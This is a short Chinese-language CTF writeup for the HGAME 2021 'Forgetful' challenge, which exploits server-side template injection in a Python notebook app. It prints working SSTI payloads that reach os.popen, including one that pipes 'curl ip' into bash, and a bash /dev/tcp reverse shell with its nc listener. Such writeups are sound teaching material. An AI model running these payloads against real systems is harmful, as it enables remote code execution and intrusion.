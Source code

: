 ```yaml
---
title: HGAME 2021 Writeup
date: 2021-02-20
image: https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210228093852.png
description: Vidar team主办的比赛
categories: 
- ctf_writeup
tags:
- XSS
- SQLi
---
```

## Level - Week3

### Forgetful

考点：简单python-SSTI

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210214230828.png)

题目是一个记事本，添加描述的时候存在SSTI，在查看页面可以看到SSTI已经成功了：

![image-20210214230953251](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210214230954.png)

最为常规的payload：

```
{{[].__class__.__mro__[1].__subclasses__()}}
{{[].__class__.__mro__[1].__subclasses__()[167].__init__.__globals__.__builtins__.__import__('os').popen('ls /').read()}}
{{[].__class__.__mro__[1].__subclasses__()[167].__init__.__globals__.__builtins__.__import__('os').popen('curl ip|bash').read()}}
```

因为命令执行处有waf，所以可以选择直接弹shell：

```
nc -lvnp 8888
bash -i >& /dev/tcp/ip/8888 0>&1
```

姿势还是比较常规；

分享一个从`[].__class__.__mro__[1].__subclasses__()`查找模块位置的脚本：

```python
#python 3
import re
str = '''
[回显内容]
'''

list = re.split(',', str)

for i in range(0, len(list)):
      if 'catch_warnings' in list[i]:
            print(i)
            break
```
